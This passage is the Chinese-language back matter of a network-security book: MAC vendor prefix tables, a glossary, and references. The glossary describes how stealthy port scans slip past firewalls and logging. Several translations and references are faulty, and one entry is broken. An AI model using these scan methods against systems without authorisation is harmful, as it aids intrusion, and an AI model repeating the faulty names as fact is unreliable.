| 新光电子股份有限公司（Shinko Electric Co., Ltd.） | 00-C0-F1 | 00C0F1 | 计算机系统部<br>150 Motoyashiki, Sanya-Cho<br>日本 爱知县 Toyohashi-Shi<br>441-31 |

## 过渡工程公司（Transition Engineering Inc.）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 过渡工程公司（Transition Engineering Inc.） | 00-C0-F2 | 00C0F2 | 7090 Shady Oak Road<br>明尼苏达州 Eden Prairie, 55344 |

## Netwok 通信公司（Netwok Communications Corp.）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| Netwok 通信公司（Netwok Communications Corp.） | 00-C0-F3 | 00C0F3 | 5501 Green Valley Drive<br>明尼苏达州 Bloomington, 55437-1085 |

## 互连系统有限公司（Interlink System Co., Ltd.）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 互连系统有限公司（Interlink System Co., Ltd.） | 00-C0-F4 | 00C0F4 | Interlink B/D, 476-20<br>韩国 首尔 Mapo-Ku Seogyo-Dong |

## Metacomp, Inc.
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| Metacomp, Inc. | 00-C0-F5 | 00C0F5 | 10989 Via Frontera<br>加利福尼亚州 San Diego, 92127 |

## 思尔科技（Celan Technology Inc.）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 思尔科技（Celan Technology Inc.） | 00-C0-F6 | 00C0F6 | No. 101, Min-Hsiang St.<br>台湾 新竹市，中华民国 |

## 参与通信公司（Engage Communication, Inc.）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 参与通信公司（Engage Communication, Inc.） | 00-C0-F7 | 00C0F7 | 9053 Soquel Drive<br>加利福尼亚州 Aptos, 95003-4034 |

## About Computing Inc.
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| About Computing Inc. | 00-C0-F8 | 00C0F8 | P.O. Box 172<br>马萨诸塞州 Belmont, 02178 |

## 哈里斯与杰弗里斯公司（Harris And Jeffries, Inc.）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 哈里斯与杰弗里斯公司（Harris And Jeffries, Inc.） | 00-C0-F9 | 00C0F9 | 888 Washington St., Ste. 130<br>马萨诸塞州 Dedham, 02026 |

## 加拿大通信公司（Canary Communications, Inc.）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 加拿大通信公司（Canary Communications, Inc.） | 00-C0-FA | 00C0FA | 1851 Zanker Road<br>加利福尼亚州 San Jose, 95112-4213 |

## 先进科技实验室（Advanced Technology Labs）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 先进科技实验室（Advanced Technology Labs） | 00-C0-FB | 00C0FB | 22100 Bothell Highway S.E.<br>P.O. Box 3003<br>华盛顿州 Bothell, 98041-3003 |

## Asgd. Incorporated
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| Asgd. Incorporated | 00-C0-FC | 00C0FC | 925 Stewart Street<br>威斯康星州 Madison, 53713 |

## Prosum
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| Prosum | 00-C0-FD | 00C0FD | 12 Rue Sadi-Carnot<br>法国 N. Oiseau 94370 |

## 博克斯山系统公司（Box Hill Systems Corporation）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 博克斯山系统公司（Box Hill Systems Corporation） | 00-C0-FF | 00C0FF | 161 Avenue Of The Americas<br>纽约州 New York, NY 10013 |

## 拉卡尔-数据通信（Racal-Datacom）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 拉卡尔-数据通信（Racal-Datacom） | 02-07-01 | 020701 | 互联网关部<br>155 Swanson Road<br>马萨诸塞州 Boxborough, 01719 |

## 苹果公司（Apple Computer Inc.）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 苹果公司（Apple Computer Inc.） | 08-00-07 | 080007 | 20650 Valley Green Drive<br>加利福尼亚州 Cupertino, 95014 |

## 惠普（Hewlett Packard）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 惠普（Hewlett Packard） | 08-00-09 | 080009 | 信息网络部<br>9420 Homestead Road<br>加利福尼亚州 Cupertino, 95014-9810 |

## 联营系统公司（Unisys Corporation）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 联营系统公司（Unisys Corporation） | 08-00-0B | 08000B | Township Line Road<br>宾夕法尼亚州 Blue Bell, 19424 |

## 国际电脑有限公司（International Computers Ltd.）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 国际电脑有限公司（International Computers Ltd.） | 08-00-0D | 08000D | Wenlock Way<br>West Gorton<br>英国 曼彻斯特, M12 5DR |

## 夏普株式会社（Sharp Corporation）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 夏普株式会社（Sharp Corporation） | 08-00-1F | 08001F | 信息系统部<br>492 Minosh-Cho<br>日本 奈良县 Yamatokooriyma-Shi<br>639-11 |

## 德州仪器（Texas Instruments）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 德州仪器（Texas Instruments） | 08-00-28 | 080028 | M/S 706<br>12203 SW Freeway<br>得克萨斯州 Stafford, 77477 |

## 数字设备公司（Digital Equipment Corporation）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 数字设备公司（Digital Equipment Corporation） | 08-00-2B | 08002B | LKG 1-2/A19<br>550 King Street<br>马萨诸塞州 Littleton, 01460-1289 |

## 欧洲核子研究中心（CERN）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 欧洲核子研究中心（CERN） | 08-00-30 | 080030 | 瑞士 日内瓦 CH-1211 Geneve 23 |

## 蜘蛛系统有限公司（Spider Systems Limited）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 蜘蛛系统有限公司（Spider Systems Limited） | 08-00-39 | 080039 | Spider Park<br>Stanwell Street<br>英国 苏格兰 爱丁堡 EH6 5NG |

## 欧陆热敏量测系统（Eurotherm Gauging Systems）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 欧陆热敏量测系统（Eurotherm Gauging Systems） | 08-00-48 | 080048 | 46 Manning Road<br>马萨诸塞州 Billerica, 01821 |

## 国际商业机器公司（Int'l Business Machines Corp.）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 国际商业机器公司（Int'l Business Machines Corp.） | 08-00-5A | 08005A | M/S:E 87/673<br>P.O. BOX 12195<br>北卡罗来纳州 Research Triangle Park, NC 27709 |

## 硅图形公司（Silicon Graphics Inc.）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 硅图形公司（Silicon Graphics Inc.） | 08-00-69 | 080069 | 2011 N. Shoreline Blvd.<br>P.O. Box 7311<br>加利福尼亚州 Mountain View, CA 94039-7311 |

## 卡西欧电脑有限公司（Casio Computer Co. Ltd.）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 卡西欧电脑有限公司（Casio Computer Co. Ltd.） | 08-00-74 | 080074 | 3-2-1 Sakae-Cho<br>日本 东京 Hamuramachi, Nishitmagun<br>190-11 |

## Chipcom 公司（Chipcom Corporation）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| Chipcom 公司（Chipcom Corporation） | 08-00-8F | 08008F | Southborough 办事处<br>118 Turnpike Road<br>马萨诸塞州 Southborough, 01772-1886 |

## 数字设备公司（Digital Equipment Corporation）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 数字设备公司（Digital Equipment Corporation） | AA-00-00 | AA0000 | LKG 1-2/A19<br>550 King Street<br>马萨诸塞州 Littleton, 01460-1289 |

## 数字设备公司（Digital Equipment Corporation）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 数字设备公司（Digital Equipment Corporation） | AA-00-03 | AA0003 | LKG 1-2/A19<br>550 King Street<br>马萨诸塞州 Littleton, 01460-1289 |

## 数字设备公司（Digital Equipment Corporation）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 数字设备公司（Digital Equipment Corporation） | AA-00-04 | AA0004 | LKG 1-2/A19<br>550 King Street<br>马萨诸塞州 Littleton, 01460-1289 |

# 术语表

**802.3** 标准 IEEE 802.3 格式；也被称为 Novell 802.2。

**10BaseT** IEEE 802.3 物理层规范，使用无屏蔽双绞线在 10 Mbps 速率下传输以太网数据。10BaseT 是 10 Mbps、基带、双绞线电缆的命名规范。

**激活** 计算机最初“捕捉”到病毒的时刻，通常来自受信任的来源。

**API（应用程序接口）** 一种技术，允许一个站点上的应用程序与另一个站点上的应用程序进行通信。

**ARP（地址解析协议）** 一种广播到物理网络中所有主机的数据包。此数据包包含发送方希望与之通信的节点或站点的 IP 地址。

**ARPANET** 一个在 1960 年代横跨美国的实验性广域网，由美国国防部高级研究计划局（ARPA，后更名为 DARPA）组建。

**ASCII（美国信息交换标准代码）** 计算机用于表示所有大写字母、小写字母、数字和标点的通用数字代码标准。

**非同步** 站点在受限或非受限条件下传输；受限站点可以在由站点管理分配的一段时间内以全环带宽传输；非受限站点在剩余站点之间分配所有可用带宽（减去受限部分）。

**后门** 黑客获取并保留对系统访问权限并掩盖其踪迹的一种手段和方法。

**带宽** 衡量介质一次能处理多少流量的指标。在数字通信中，描述在每秒位数（bps）单位下线路可传输的数据量。

**位** 基数 2（0 或 1）中的单个数字；计算机数据的最小单位。

**缓冲区流控制** 当数据以流的形式传递时，协议软件可能会分割流以填充特定的缓冲区大小。TCP 管理此过程以防止缓冲区溢出。在此过程中，快速发送的站点可能会定期停止，以便慢速接收的站点能够跟上。

**缓冲** 诸如路由器等互联网关设备使用此技术作为传入请求的内存存储。只要有足够的缓冲区空间（内存地址空间）可用，请求就被允许进入。当此空间用完（缓冲区已满）时，路由器将开始丢弃数据包。

**字节** 表示计算机内存中单个字符的位数（8 位）。

**破解者** 克服网络或特定计算机系统安全措施以获得未授权访问的人。从技术上讲，破解者的目标是获取信息


## 逻辑上来自计算机系统的行为，或非法使用计算机资源
从计算机系统中非法获取，或非法使用计算机资源；然而，大多数“cracker”（破译者/黑客）只是想闯入系统。

## CRC（循环冗余校验）
一种用于检测传输错误的验证过程。发送站在传输前计算帧值。在帧检索时，接收站必须基于一次完整且成功的传输计算出相同的值。

## CSMA/CD（带冲突检测的载波监听多路访问）
以太网中用于检测冲突的技术。发生冲突的站立即中止其传输。检测到冲突的第一个站向所有站发送警报。此时，所有站都会执行一个随机冲突计时器，在尝试传输帧之前强制延迟。这种时间延迟机制被称为*退避算法*。如果检测到多次冲突，随机延迟计时器将加倍。

## 数据报
互联网的基本传输单元。IP 数据报是 IP 模块之间交换数据的单位。

## 解复用
将已复用到公共流中的各流分离回多个输出流的过程。

## DSL（数字用户线路）
一种高速互联网连接，可提供比当前 ISDN 和模拟技术快 6 到 30 倍的速度，而成本仅为同类服务的一小部分。此外，DSL 使用家中已铺设的电话线。

## 差错检测
一种通常在执行面向连接会话时进行的功能，用于检查每个数据包是否缺失字节。此过程中的主要值被称为*校验和*。在此程序中，发送站计算校验和值并传输数据包。当接收到数据包时，目的地站重新计算该值以确定校验和是否匹配。如果匹配，接收站处理该数据包。如果传输中存在错误且校验和重新计算不匹配，则提示发送者重新传输数据包。

## 误码率
在数据传输中，传输的错误元素数量与传输的总元素数量之比。

## FDDI（光纤分布式数据接口）
本质上是一种使用光纤电缆并具有冗余故障切换功能的高速令牌环网络。

## 文件服务器
一种可以通过局域网（LAN）被多台计算机访问的网络设备。它指导多用户通信网络中文件和数据的流动，并向局域网节点“提供”文件。

## 碎片扫描
对其他扫描技术的一种修改，即把探测包拆分成几个小的 IP 片段。本质上，TCP 头部被分割到多个数据包中，使包过滤器更难检测正在发生的事情。

## 帧
一组串行发送（一个接一个）的位，包括源地址、目标地址、数据、帧校验序列和控制信息。通常，帧是一个逻辑传输单元。它是面向位协议中使用的基数据传输单元。

## 全双工连接
同时向两个方向传输数据流，以减少总体网络流量。

## 黑客
通常指完全沉浸于计算机技术和计算机编程中的人，喜欢检查操作系统和其他程序的代码以了解其工作原理。随后，该个人利用其计算机专业知识从事非法目的，例如未经许可访问计算机系统以及篡改程序和数据。

## 黑客技术手册
一本汇集了开发黑客知识库所需关键概念的书籍。

## 握手
在会话建立过程中提供端到端控制信息交换的过程，例如链路速度。

## HTML（超文本标记语言）
一种由程序员用来生成可作为网页显示的信息页面的标签和代码语言。

## 集线器
星型拓扑网络的中心，也称为多端口中继器。集线器再生来自端口的信号，并重传到一个或多个与之连接的其他端口。

## InterNIC
分配和控制互联网上使用的所有网络地址的组织。已定义了由 32 位数字组成的三类：A、B 和 C。

## IP（互联网协议）
一项 ISO 标准，定义了 OSI 模型中负责路由和传输的第 3 层（网络层）的一部分。IP 使具有固定长度地址的主机之间能够传输数据块（数据报）。

## IPX（互联网协议交换）
最初用于通过互联网交换分组路由的 NetWare 协议。IPX 是一种无连接数据报协议，因此与其他不可靠的数据报传输协议（如互联网协议）类似。

## ISDN（综合业务数字网）
交换式模拟通信的数字版本。

## LAN（局域网）
分布在相对有限区域内的计算机和其他设备组，通过通信链路连接，使任何站可以与任何其他站交互。这些网络允许站共享资源，如激光打印机和大硬盘。

## 时延
网络站寻求访问传输通道与获得或被授予访问权限之间的时间间隔。等同于等待时间。

## 邮件炸弹
用于使收件人的电子邮箱崩溃的电子邮件消息；或通过使用目标的 SMTP 网关发送未经授权邮件来进行垃圾邮件轰炸。邮件炸弹可能采取带有巨大附件的单条电子邮件消息，或旨在淹没邮箱和/或服务器的数千条电子邮件消息的形式。

## 操作阶段
病毒“有效载荷”开始生效的时间点，例如在特定日期（如 13 号星期五或 1 月 1 日），由事件触发（例如第三次重启或定期磁盘维护过程中）。

## MAU（多站访问单元）
连接令牌环网络中各站的设备。每个 MAU 形成一个环形圈。

## MTU（最大传输单元）
在系统间通信序列中，使用数据链路连接传输的最大 IP 数据报。MTU 值是双方协议值，即链路的两端同意使用相同的特定值。

## 复用
将多个信号并发传输到输入流中，通过单一物理通道传输的方法。

## NetBEUI（NetBIOS 扩展用户接口）
一种不可靠且扩展性有限的协议，用于本地 Windows NT、LAN Manager 和 IBM LAN 服务器网络中的文件和打印服务。

## NetBIOS（网络基本输入/输出系统）
最初设计为 IBM PC 网络通信协议接口的 API。它已被扩展，允许使用 NetBIOS 接口编写的程序在许多流行网络上运行。

## 噪声
用户通信流之外的任何传输，导致信号干扰。噪声干扰可能导致带宽退化，并可能致使信号完全丢失。

## Novell 专有
Novell 的初始封装类型；也称为 Novell Ethernet 802.3 和 802.3 Raw。

## OSI（开放系统互连）模型
一套通常被整体计算机通信接受为标准的七层硬件和软件指南。

## 数据包
一组数据，通常以二进制形式存在。

## Phreak（电话盗接者）
闯入电话网络或其他安全电信系统的人。

## PPP（点对点协议）
一种封装协议，提供在串行或租用线点对点链接上传输 IP 的功能。

## 协议
计算机网络上通信的一组规则。

## PVC（永久虚电路）
通过帧中继在 DTE 设备之间进行频繁数据传输的永久通信会话。

## RARP（反向地址解析协议）
一种允许站广播其硬件地址，并期望服务器守护进程响应一个可供该站使用的可用 IP 地址的协议。

## 复制
病毒尽可能感染其范围内所有源的阶段。

## 服务通告协议
网络资源（如文件服务器）通告其地址和所提供服务的机制。默认情况下，这些通告每 60 秒发送一次。

## 扫描（端口扫描）
扫描尽可能多的端口，以识别对特定黑客攻击有用或可接收的端口的过程。扫描器程序报告这些可接收的监听器，分析弱点，并将这些弱点与已知黑客方法数据库进行交叉参考以进行进一步解释。

## 嗅探器
被动截获并复制系统、服务器、路由器或防火墙上所有网络流量的软件程序。


**源端抑制** 与缓冲机制配合使用，源端抑制会在接收方的缓冲区开始接近容量上限时，向源节点发送消息。接收路由器向发送方发送超时消息，指示其放慢速度，直到缓冲区再次可用为止。

**流** 数据被系统化并以比特流的形式传输，组织为8位八位组或字节。当这些比特被接收时，它们以相同的方式传递。

**子网划分** 将分配或推导出的地址类别划分为更小但相互关联的独立物理网络的过程。

**SVC (交换虚电路)** 一种用于不频繁数据传输的周期性、临时通信会话。

**同步** 一种系统，保证各站点获得总可用带宽的特定百分比。

**TCP (传输控制协议)** 一种用于在计算机之间以消息单元形式发送数据的协议。TCP跟踪被称为数据包的单个数据单元。

**TCP FIN 扫描** 一种更为隐蔽的扫描形式。某些防火墙和包过滤器会监视发往受限端口的SYN，并有Synlogger和Courtney等程序可用于检测这些扫描。另一方面，FIN数据包可能能够不受阻碍地通过，因为关闭的端口倾向于用适当的RST回复FIN数据包，而开放的端口则倾向于忽略相关数据包。

**TCP 端口扫描** 最基本的扫描形式。使用这种方法，会尝试建立完整的TCP端口连接，以确定该端口是处于活动状态还是“监听”状态。

**TCP 反向身份扫描** 一种允许披露通过TCP连接的任何进程的属主用户名的协议，即使该进程并未发起连接也是如此。例如，可以连接到HTTP端口，然后使用identd来确定服务器是否以root身份运行。

**TCP SYN 扫描** 通常被称为*半开*或*隐蔽*扫描，因为没有打开完整的TCP连接。发送一个SYN数据包，就好像要建立一个真实的连接一样，并等待响应。SYN/ACK表示端口正在监听。因此，RST响应表明该端口未监听。如果收到SYN/ACK，则立即发送RST以断开连接。这种扫描技术的主要优点是更少站点会记录它。

**威胁** 可能对其自动化信息系统或活动造成损害的行为，无论是有意的还是无意的。

**特洛伊木马** 一种恶意的、破坏安全的程序，通常伪装成有用的东西，例如实用程序、玩笑或游戏下载。

**UDP (用户数据报协议)** 一种通信协议，当使用IP的计算机网络中计算机之间交换消息时，提供有限量的服务。

**UDP ICMP 端口不可达扫描** 一种使用UDP协议而非TCP协议的扫描方法。该协议复杂度较低，但对其进行扫描要困难得多。开放端口无需针对探测发送确认，且关闭端口无需发送错误数据包。幸运的是，大多数主机在数据包发送到关闭的UDP端口时会发送ICMP_PORT_UNREACH错误。因此，可以确定端口是否关闭，并通过排除法确定哪些端口是开放的。

**UDP recvfrom() 和 write() 扫描** 非root用户无法直接读取端口不可达错误；因此，当这些错误被接收时，Linux会间接通知用户。例如，对关闭端口的第二次write()调用通常会失败。ncat和pscan.c等许多扫描器就是这样做的。当非root用户使用-u (UDP)时，使用此技术来确定开放端口。

**虚电路** 当一个站点请求与另一个站点通信时，两个站点都会通知其应用程序并同意进行通信。如果这些站点之间的链路或通信失败，两个站点都会意识到中断并通知各自的软件应用程序。在这种情况下，将尝试协调重试。

**病毒** 一种通过利用主机程序（因此需要主机程序）来自我复制的计算机程序。

**VLSM (可变长子网掩码)** 通过路由协议广播子网信息。

**漏洞** 可能导致自动化信息系统或活动受到损害的缺陷或弱点。

**WAN (广域网)** 一种连接地理上分散系统的通信网络。

**知名端口** 计算机系统65,000个端口中的前1,024个，它们保留用于系统服务；因此，出站连接的端口号将高于1023。这意味着所有通过高于1023的端口通信的传入数据包实际上都是由内部请求发起的连接回复。

**窗口** 通过此功能，端到端节点就每次传输要发送的数据包数量达成一致。这个数据包数量被称为*窗口大小*。例如，如果窗口大小为3，源站点将传输三个段，然后等待来自目的地的确认。收到确认后，源站点将再发送三个段，以此类推。

## 参考文献

- Bellovin, Steven, RFC 1675, "Security Concerns for IPng," 1994年8月。

- Bellovin, Steven M., "Security Problems in the TCP/IP Protocol Suite," *计算机通信评论*, 第19卷, 第2期, 第2-6页, 1989年4月。
  - ———. "Problem Areas for the IP Security Protocol," 收录于*第六届Usenix UNIX安全研讨会论文集*, 1996年。

- Callon, R, RFC 2185, "Routing Aspects of IPv6 Transition", 1997年9月。

- Carpenter, B, RFC 1671, "IPng: White Paper on Transition and Other Considerations," 1994年8月。

- Carpenter, B, RFC 2529, "Transmission of IPv6 over IPv4 Domains without Explicit Tunnels," 1999年3月。

- Daemon9, route, infinity, "Project Neptune (Analysis of TCP SYN Flooding)," *Phrack杂志*, 第7卷, 第48期, www.phrack.com。

- Daemon9, route, infinity, "IP Spoofing Demystified," *Phrack杂志*, 第7卷, 第48期, www.phrack.com。

- Deering, S, RFC 2460, "Internet Protocol, Version 6 (IPv6) Specification," 1998年12月。

- Garfinkel, Simson, and Gene Spafford, *Practical UNIX and Internet Security*, 加利福尼亚州Sebastopol: O'Reilly and Associates, 1996年。
  - ———. *Practical UNIX and Internet Security, 2nd Edition*, 加利福尼亚州Sebastopol: O'Reilly & Associates, 1996年。
  - ———. *Web Security & Commerce*, 加利福尼亚州Sebastopol: O'Reilly & Associates, 1997年。

- Gilligan, R. RFC 3933, "Transition Mechanisms for IPv6 Hosts and Routers," 1996年4月。

- Hiden, Robert, "History of the IPng Effort," www.huygens.org/~dillema/ietf/doc/history.html, 1999年10月15日查阅。

- Hinden, R, RFC 1517-RFC 1519, "Classless Inter-Domain Routing," 1993年9月。

- Information Sciences Institute, RFC 791, "Internet Protocol," 1981年9月。

- Internet Engineering Task Force (IETF), IPsec Working Group, www.ietf.org/html/charters/ipseccharter.html IETF

- Internet Software Consortium, www.isc.org/ds/WWW-9907/report.html, 1999年11月22日查阅。

- Kaplan & Kovara Associates, "Open VMS Security Policies and Procedures," 1993年3月31日电话会议，附配套工作手册 (亚利桑那州图森)。
  - ———. "UNIX Security Policies and Procedures," 1993年4月1日电话会议，附配套工作手册 (亚利桑那州图森)。

- Kaplan, Ray, “The Formulation, Implementation, and enforcement of a Security Policy,” 亚利桑那州图森: Kaplan & Kovara Associates 1993年。

- Kent, Christopher and Jeffrey Mogul, “Fragmentation Considered Harmful,” (修订版论文) 西方研究实验室, 1987年12月。

- Kent, S, RFC 2402, “IP Authentication Header,” 1998年11月。

- Kent, S, RFC 2406, “IP Encapsulating Security Payload,” 1998年11月。

- Knightmare, Loompanies Unlimited, *Secrets of a Superhacker*, 华盛顿州Port Townsend, 1994年。

- Narten, T, RFC 2461, “Neighbor Discovery in IPv6,” 1998年12月。

- Nessett Dan, “IPSEC: Friend or Foe,” 收录于*Network and Distributed Security Symposium (NDSS) Proceedings*, 1999年。

- Postel, J., “User Datagram Protocol, STD 6,” RFC 768, USC/Information Sciences Institute, 1980年8月。

- Postel, J, RFC 801, “NCP/TCP transition plan,” 1981年11月。

- Postel, J., ed., “Transmission Control Protocol—DARPA—Internet Program Protocol Specification,” STD 7, RFC 793, USC/Information Sciences Institute, 1981年9月。

- Reynolds, J, RFC 1700, “Assigned Numbers,” 1994年10月查阅。

- RFPuppy, “Remote OS Detection via TCP/IP Stack Fingerprinting,” *Phrack杂志*, 第8卷, 第54期, www.phrack.com。

- Schweizer, Peter, *Friendly Spies*, 纽约: Atlantic Monthly Press, 1993年。

